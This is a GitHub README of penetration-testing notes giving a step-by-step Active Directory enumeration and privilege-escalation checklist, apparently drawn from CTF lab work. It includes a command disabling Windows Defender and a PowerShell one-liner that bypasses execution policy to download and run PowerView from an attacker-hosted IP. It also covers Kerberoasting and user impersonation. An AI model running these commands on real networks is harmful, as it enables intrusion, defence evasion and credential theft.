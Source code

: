 # Active Directory Enumeration

Enumerate and exploit AD users and groups.

1. Enumerate all **local accounts**
   
        net user

2. Enumerate all users in the **entire domain**

        net user /domain

3. Query information about **individual users**

        net user USERNAME /domain
    
    Identify a user who is member of the **Domain Admins** group

4. Enumerate all groups in the domain

        net group /domain

    Analyse output and identify custom groups, if any.

5. Create an **LDAP connection string**

        LDAP://DC=|SERVER NAME|[,DC=|EXTENSION|]

6. **Disable Windows Defender** by running following PowerShell command as a local administrator

        Set-MpPreference -DisableRealtimeMonitoring $true

7. **Extract** files from a ZIP folder using PowerShell
  
        Expand-Archive -LiteralPath ./filename.zip -DestinationPath ./outputFolderName

8. Check **file permissions**

        icacls filename.txt

9. **Grant** a user **full control** over a folder and all its subfolders

        icacls "C:\folder\path" /grant Username:(OI)(CI)F /T

10. **Check** the current user's **integrity level**

        whoami /groups

    Is it **low**, **medium**, **high**, **system**, or **installer**?

11. **Change** the integrity level of a file

        icacls winPEASx64.exe /setintegritylevel Low
    ---
        > icacls winPEASx64.exe
        winPEASx64.exe NT AUTHORITY\SYSTEM:(I)(F)
                BUILTIN\Administrators:(I)(F)
                COMPATIBILITY\Administrator:(I)(F)
                Mandatory Label\Low Mandatory Level:(NW)

12. Check the current user's **permissions**

        whoami /priv

13. List the "Security Update" **patches**

        Get-Hotfix -description "Security update"

14. Get a list of running **non-standard services** that **start automatically**

        wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"

15. Enumerate the **internal network** to find live hosts

        for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && echo 10.5.5.%i is up.

16. Use [CrackMapExecWin](../crackmapexecwin/README.md) to check which boxes could be accessed using any of the known credentials

17. Use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to find users on the network with enhanced privileges

        powershell.exe -executionpolicy bypass "iex(New-Object System.Net.WebClient).DownloadString('http://10.14.14.9:8000/PowerView_v1.ps1'); Get-NetComputer"

    ---

        Get-DomainComputer | Select name
        Find-DomainShare
        Find-DomainShare -CheckShareAccess

    ---

    List the interesting shares, if found

        ls \\citrix\citrix$\

    Check if a domain user has SPN associated with them

        Get-DomainUser

    Request a Ticket Granting Service Ticket (TGS-REQ) for an identified service. The returned TGS (TGS-REP) would be encrypted using the NTLM password hash of the account in whose context the service was running.

18. [Refer steps mentioned here](../attacking_kerberos/README.md) to obtain and crack the hash for a user who has an SPN associated with them
19. Check current user's permissions

        whoami /priv

20. If `SeImpersonatePrivilege` feature is enabled for current user, and, if hash (from step #18, above) was cracked successfully, then **impersonate** as a different user 
    
    * Using [Covenant](https://github.com/cobbr/Covenant)

            MakeToken <username> <domain.local> <password> LOGON32_LOGON_INTERACTIVE

    * Using [runas](https://www.dionach.com/blog/discovering-sensitive-information-in-file-shares/)

            runas /netonly /user:domain.local\username "PowerShell.exe -exec bypass"

21. List accessible shares as the impersonated user

        ls \\shareName\sharePath$\

## References

* https://www.codemag.com/Article/1312041/Using-Active-Directory-in-.NET
* https://www.wintips.org/how-to-disable-or-remove-windows-defender-antivirus-in-server-2016/
* https://www.robvanderwoude.com/ntadmincommands.php
* https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/integrity-levels
* https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows
* https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
* https://morph3sec.com/Writeups/HackTheBox/HackTheBox-Endgame-Xen-Writeup/
* https://www.picussecurity.com/blog/picus-10-critical-mitre-attck-techniques-t1003-credential-dumping
* https://info.varonis.com/hubfs/docs/whitepapers/en/ebook_pen_testing_031317.pdf?hsLang=en
* https://github.com/cobbr/Covenant
* https://powersploit.readthedocs.io/en/latest/Recon/Find-DomainShare/
* https://www.dionach.com/blog/discovering-sensitive-information-in-file-shares/
